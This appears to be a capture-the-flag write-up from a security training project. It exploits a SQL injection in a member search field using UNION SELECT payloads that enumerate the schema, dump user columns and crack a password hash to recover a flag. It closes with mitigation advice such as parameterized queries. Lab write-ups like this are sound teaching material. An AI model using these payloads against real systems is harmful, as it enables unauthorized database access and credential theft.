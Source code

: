 #4-Search_Member_Field Breach

##Research explanation
- Usually, when you have a field you can fill, the first thing to check is if the field is protected regarding SQL injections.
- I first checked what you can receive when you put an int: you get details about members(ID, First name, Surname)
- I immediatly tried to inject a SQL command, 1 UNION SELECT * FROM members WHERE Surname = 'administrator'--'
NB: I put '1  UNION' in order to close the first SQL request and be able to load another SQL request.
- It seems the field is not protected as I received this message: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'administrator\'--\'' at line 1"
- After few researches on how to display DB structure details in SQL, I found a way to return a list of all the columns and tables in the database: https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/ - 1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
- There are a lot of information in the new list pulled. After few investigations it  seems some database tables are interesting, as 'users' which seems to contain user details, and 'db_default' which seems to contain the passwords of the users.
- Let's  query  the 'users' table with: 1 UNION SELECT first_name, last_name FROM users. An interesting result is there - ID: 1 UNION SELECT first_name, last_name FROM users 
First name: Flag
Surname : GetThe
- Now I will get each available column of the 'users' table to see  if I can have more details:
1 UNION SELECT first_name, town FROM users 
=> Surname : 42
1 UNION SELECT first_name, country FROM users 
=> Surname : 42
1 UNION SELECT first_name, planet FROM users 
=> Surname : 42
1 UNION SELECT first_name, commentaire FROM users 
=> Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
1 UNION SELECT first_name, countersign FROM users 
=> Surname : 5ff9d0165b4f92b14994e5c685cdce28
- Then I decript it, using the dcode hash website -  https://www.dcode.fr/fonction-hash
=> 5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo
- Then I aply a Sh256 encryption on the 'fortytwo' key and I got this flag:
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

##Breach Details 
- SQL injection is a commun breach (especially on PHP app).
- It is an: insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system.
- According to OWASP, an SQL injection attacks allow attackers to spoof identity, tamper with existing data, cause repudiation issues such as voiding transactions or changing balances, allow the complete disclosure of all data on the system, destroy the data or make it otherwise unavailable, and become administrators of the database server.

Recommendation: 
- SQL Injection flaws are introduced when software developers create dynamic database queries that include user supplied input. To avoid SQL injection flaws is simple. Developers need to either: 
a) stop writing dynamic queries; and/or 
b) prevent user supplied input which contains malicious SQL from affecting the logic of the executed query.
Some solutions: The use of prepared statements with variable binding (aka parameterized queries) is a suitable solution. Parameterized queries force the developer to first define all the SQL code, and then pass in each parameter to the query later. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied. Input validation can be also a good defense used to detect unauthorized input before it is passed to the SQL query. 

##How to:
- Input '1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS' in the search member field
- Input '1 UNION SELECT first_name, last_name FROM users' in the search member field
- Input '1 UNION SELECT commentaire, countersign FROM users' in the search member field
- Decode the hash using 'https://www.dcode.fr/fonction-hash'
- Lower the word obtained and encrypt it with sh256 on the same website
- The flag is there.
